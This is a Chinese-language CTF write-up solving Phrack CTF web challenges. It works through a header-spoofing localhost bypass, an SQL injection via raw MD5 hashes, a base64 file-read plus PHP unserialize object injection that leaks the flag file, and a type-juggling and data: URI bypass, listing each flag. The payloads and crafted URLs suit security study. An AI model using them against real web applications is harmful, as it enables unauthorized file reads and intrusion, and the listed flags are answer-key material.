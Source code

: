 # Phrack CTF WEB

1. PORT51
    > Please use port 51 to visit this site.

    - 至今没有思路

2. LOCALHOST
    - `X-Forwarder-For: 127.0.0.1`

3. Login
    - password 129581926211651571912466741651878684928 or 1839431
    - `PCTF{R4w_md5_is_d4ng3rous}`
    - [SQL injection with raw MD5 hashes](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
    - [SQL injection with raw MD5 hashes ](http://www.joychou.org/index.php/web/SQL-injection-with-raw-MD5-hashes.html?utm_source=tuicool)

4. 神盾局的秘密
    > 这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

    - 题面源码很短：`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`
    - 发现参数`img`的值为`c2hpZWxkLmpwZw==`，看起来好像是Base64的样子（根据曹小白的说法：1. 末尾有等号；2. 大小写混杂，解码后发现为`shield.jpg`，进一步验证想法。
    - 通过 `view-source:http://web.phrack.top:32779/showimg.php?img=c2hvd2ltZy5waHA=` 查看 `showimg.php` 源码：
        ```
        <?php
        	$f = $_GET['img'];
        	if (!empty($f)) {
        		$f = base64_decode($f);
        		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        		&& stripos($f,'pctf')===FALSE) {
        			readfile($f);
        		} else {
        			echo "File not found!";
        		}
        	}
        ?>
        ```
    - `showimg.php` 源码中规定了`img`参数的打开规则：
        - 不允许包含`..`, `/`, `\\`, `pctf` 等字符
        - 传入的参数需要经过Base64编码
    - 尝试通过 `view-source:http://web.phrack.top:32779/showimg.php?img=aW5kZXgucGhw` 查看 `index.php` ：
        ```
        <?php
        	require_once('shield.php');
        	$x = new Shield();
        	isset($_GET['class']) && $g = $_GET['class'];
        	if (!empty($g)) {
        		$x = unserialize($g);
        	}
        	echo $x->readfile();
        ?>
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
        ```
    - 发现一个叫做`shield.php`的东西，`view-source:http://web.phrack.top:32779/showimg.php?img=c2hpZWxkLnBocA==` 得到：
        ```
        <?php
        	//flag is in pctf.php
        	class Shield {
        		public $file;
        		function __construct($filename = '') {
        			$this -> file = $filename;
        		}

        		function readfile() {
        			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
        			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
        				return @file_get_contents($this->file);
        			}
        		}
        	}
        ?>
        ```
    - 发现`//flag is in pctf.php`，简直开心，直接访问`view-source:http://web.phrack.top:32779/showimg.php?img=cGN0Zi5waHA=`获取flag，然而`File not found!`。
    - 返回去研究`index.php`源码，发现还有个名为`class`的参数未用。由源码，`class`应为经过序列化的一个名为`Shield`的类，定义见`shield.php`。
    - 通过以下代码生成需要传入`class`的值：
        ```
        <?php
        class Shield {
            public $file;
            function __construct($filename = 'pctf.php') {
                $this -> file = $filename;
            }

            function readfile() {
                if (!empty($this->file) && stripos($this->file,'..')===FALSE
                && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                    return @file_get_contents($this->file);
                }
            }
        }
        $x = new Shield();
        // $g = "O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}";
        $g = serialize($x);
        echo str_replace("\"", "%22", $g);  //强序列化后的内容转换为url中可传入的参数
        // echo $g;
        ?>
        ```
    - 得到页面源代码：
        ```
        <?php
        	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
        	//Fake flag:
        	echo "FLAG: PCTF{I_4m_not_fl4g}"
        ?>
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
        ```
    - `PCTF{W3lcome_To_Shi3ld_secret_Ar3a}`

5. IN A Mess

    > 连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。

    - 页面内容`work harder!harder!harder!`
    - 查看源代码，发现只有一行：`<!--index.phps-->work harder!harder!harder!`。 **仔细** 观察，发现`index.phps`是什么鬼东西，遂打开看看。
    - 得到代码如下：
        ```
        if(!$_GET['id'])
        {
            header('Location: index.php?id=1');
            exit();
        }
        $id=$_GET['id'];
        $a=$_GET['a'];
        $b=$_GET['b'];
        if(stripos($a,'.'))
        {
            echo 'Hahahahahaha';
            return ;
        }
        $data = @file_get_contents($a,'r');
        if ($data=="1112 is a nice lab!" and
            $id==0 and
            strlen($b)>5 and
            eregi("111".substr($b,0,1),"1114") and
            substr($b,0,1)!=4)
        {
            require("flag.txt");
        }
        else
        {
            print "work harder!harder!harder!";
        }
        ```
    - 通过代码可以得知，如果我们想要得到`flag.txt`则需要以下满足五个条件：
        1. `$data=="1112 is a nice lab!"`，其中`$data = @file_get_contents($a,'r')`
        2. `$id==0`
        3. `strlen($b)>5`
        4. `eregi("111".substr($b,0,1),"1114")`
        5. `substr($b,0,1)!=4`
    - 所以构造出可以获得flag的连接：`index.php?id=0a&a=data:text/plain,1112%20is%20a%20nice%20lab!&b=.whaterever`，获得
    - [PHP中的header（）函数](http://www.cnblogs.com/fengzheng126/archive/2012/04/21/2461475.html)
    -

6. RE?
    - so文件
